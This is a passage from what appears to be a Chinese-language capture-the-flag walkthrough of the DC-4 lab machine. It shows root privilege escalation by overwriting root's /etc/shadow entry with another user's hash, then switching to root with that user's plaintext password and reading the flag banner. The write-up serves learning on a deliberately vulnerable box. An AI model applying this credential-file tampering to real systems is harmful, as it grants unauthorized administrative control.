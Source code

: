     将当前用户`charles`的密码覆盖`root`账户的密码
    
    ```python
    
    root:$6$C7nromw2$HB4uMhUmb.srv.I.Q00bT/SV3fxgphbarSb4A8B0aI6kPGOy6WKrKJk.ckCfMLuO6H4uqGx68ylJcmB5ezJ.r0:17992:0:99999:7:::
    .......
    charles:$6$C7nromw2$HB4uMhUmb.srv.I.Q00bT/SV3fxgphbarSb4A8B0aI6kPGOy6WKrKJk.ckCfMLuO6H4uqGx68ylJcmB5ezJ.r0:17992:0:99999:7:::
    ```
    
    `su`切换到`root` ，使用`charles`的密码`^xHhA&hvim0y`
    
    ```python
    charles@dc-4:~$ su root
    Password: 
    root@dc-4:/home/charles# 
    ```
    
    提权成功！读取`flag`文件
    
    ```python
    # root@dc-4:~# cat flag.txt
    
    888       888          888 888      8888888b.                             888 888 888 888 
    888   o   888          888 888      888  "Y88b                            888 888 888 888 
    888  d8b  888          888 888      888    888                            888 888 888 888 
    888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
    888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
    88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
    8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
    888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 
    
    Congratulations!!!
    
    Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
    who have provided feedback, and who have taken time to complete these little
    challenges.
    
    If you enjoyed this CTF, send me a tweet via @DCAU7.
    ```